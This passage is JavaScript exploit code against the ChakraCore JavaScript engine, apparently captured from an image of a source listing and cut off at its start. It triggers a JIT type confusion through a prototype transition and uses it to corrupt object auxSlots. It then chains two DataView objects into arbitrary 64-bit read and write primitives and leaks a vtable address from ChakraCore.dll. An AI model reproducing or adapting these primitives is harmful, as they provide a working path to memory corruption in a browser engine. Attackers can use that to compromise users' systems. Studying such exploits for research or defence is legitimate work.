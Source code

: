 ```javascript
	// Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
	var arrayRead = new Uint32Array(0x10);
	arrayRead[0] = dataview2.getUint32(0x0, true); 	// 4-byte arbitrary read
	arrayRead[1] = dataview2.getUint32(0x4, true);	// 4-byte arbitrary read

	// Return the array
	return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
	dataview1.setUint32(0x38, lo, true); 		// DataView+0x38 = dataview2->buffer
	dataview1.setUint32(0x3C, hi, true);		// We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

	// Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
	dataview2.setUint32(0x0, valLo, true);		// 4-byte arbitrary write
	dataview2.setUint32(0x4, valHi, true);		// 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0, true);
	vtableHigh = dataview1.getUint32(4, true);

	// Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
}

main();
```
